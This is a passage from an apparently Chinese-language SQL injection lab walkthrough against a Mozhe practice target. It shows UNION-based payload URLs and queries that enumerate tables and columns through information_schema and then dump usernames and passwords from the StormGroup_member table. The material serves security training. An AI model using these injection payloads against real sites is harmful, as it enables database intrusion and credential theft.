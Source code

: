 ```sql
//在informa_schema库中查询table_schema为‘mozhe_Discuz_StormGroup’的所有数据，输出到注入点
select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema=‘mozhe_Discuz_StormGroup’  
```

![](https://gitee.com/YatJay/image/raw/master/img/202201291139026.png)

得到数据库 `mozhe_Discuz_StormGroup`中一共有两张表，表名分别是`StormGroup_member`和`notice`

##### 查询指定表名的所有列名信息

在information_schema数据库中指定`table_name`字段(即表名)的值为`StormGroup_member`下的所有列名`column_name`信息：

```sql
http://219.153.49.228:43230/new_list.php?id=-1 union select 1,group_concat(column_name),3,4 from information_schema.columns where table_name=‘StormGroup_member’
```

```sql
//在informa_schema库中查询table_name为‘StormGroup_member’的所有数据，输出到注入点
select 1,group_concat(column_name),3,4 from information_schema.columns where table_name=‘StormGroup_member’
```

![](https://gitee.com/YatJay/image/raw/master/img/202201291152915.png)

得到数据库`mozhe_Discuz_StormGroup`中的表`StormGroup_member`中一共有4列，列名分别为`id`、`name`、`password`、`status`

至此我们就掌握了当前数据库`mozhe_Discuz_StormGroup`下的表`StormGroup_member`的全部信息，同理可以查到数据库`mozhe_Discuz_StormGroup`下其他表的信息。

比如`StormGroup_member`表的结构如下：

| id   | name | password | status |
| ---- | ---- | -------- | ------ |
| ……   | ……   | ……       | ……     |

### 第5步：查询指定数据

#### 查询用户表中的用户名和密码信息

认定`StormGroup_member`就是数据库的用户表

在数据库`mozhe_Discuz_StormGroup`中的表`StormGroup_member`中查询用户名和密码信息

```sql
http://219.153.49.228:49521/new_list.php?id=-1 union select 1,name,password,4 from StormGroup_member
```

![](https://gitee.com/YatJay/image/raw/master/img/202201291205177.png)

#### 猜解多个数据——通过limit n,1 变动猜解多个数据

如果查询结果是多条数据，而输出显示只显示一条数据中的部分字段，采用limit n,1来将每一条数据显示到注入输出点处：
